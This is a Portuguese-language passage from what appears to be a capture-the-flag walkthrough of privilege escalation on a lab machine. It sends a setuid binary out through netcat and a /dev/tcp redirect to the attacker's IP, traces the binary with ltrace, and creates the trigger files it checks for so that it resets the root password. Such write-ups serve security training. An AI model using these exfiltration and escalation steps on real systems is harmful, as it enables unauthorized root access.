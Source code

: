De todos os arquivos, o **/usr/bin/reset_root** parece ser o correto.

Para isso, teremos que mandar uma cópia desse arquivo para a nossa máquina.
Sendo assim, abriremos outro socket com o netcat em uma outra porta.

```bash
nc -lnvp 3333 > reset_root
```

No outro terminal, temos que enviar o reset_root para a nossa máquina:

```bash
cat /usr/bin/reset_root > /dev/tcp/192.168.56.1/3333
```

Agora, temos o arquivo na nossa máquina.
Para analisar a execução de um binário, podemos usar uma ferramenta chamada **ltrace**.

```bash
ltrace ./reset_root
```

Como saída, obteremos isso:

```bash
┌──(kali㉿kali)-[~]
└─$ ltrace ./reset_root
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)    = 38
access("/dev/shm/kHgTFI5G", 0)                 = -1
access("/dev/shm/Zw7bV9U5", 0)                 = -1
access("/tmp/kcM0Wewe", 0)                     = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)    = 44
+++ exited (status 0) +++

```

Veja que esse executável acessa três arquivos. Vou criar esses três arquivos e executar o reset_root de novo.

```bash
bash-5.1$ touch /dev/shm/kHgTFI5G
touch /dev/shm/kHgTFI5G
bash-5.1$ touch /dev/shm/Zw7bV9U5
touch /dev/shm/Zw7bV9U5
bash-5.1$ touch /tmp/kcM0Wewe
touch /tmp/kcM0Wewe
```

```bash
bash-5.1$ /usr/bin/reset_root
```

Como saída, temos:

```bash
bash-5.1$ /usr/bin/reset_root
/usr/bin/reset_root
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth

```
A senha do root foi resetada. Agora, só precisamos logar como root
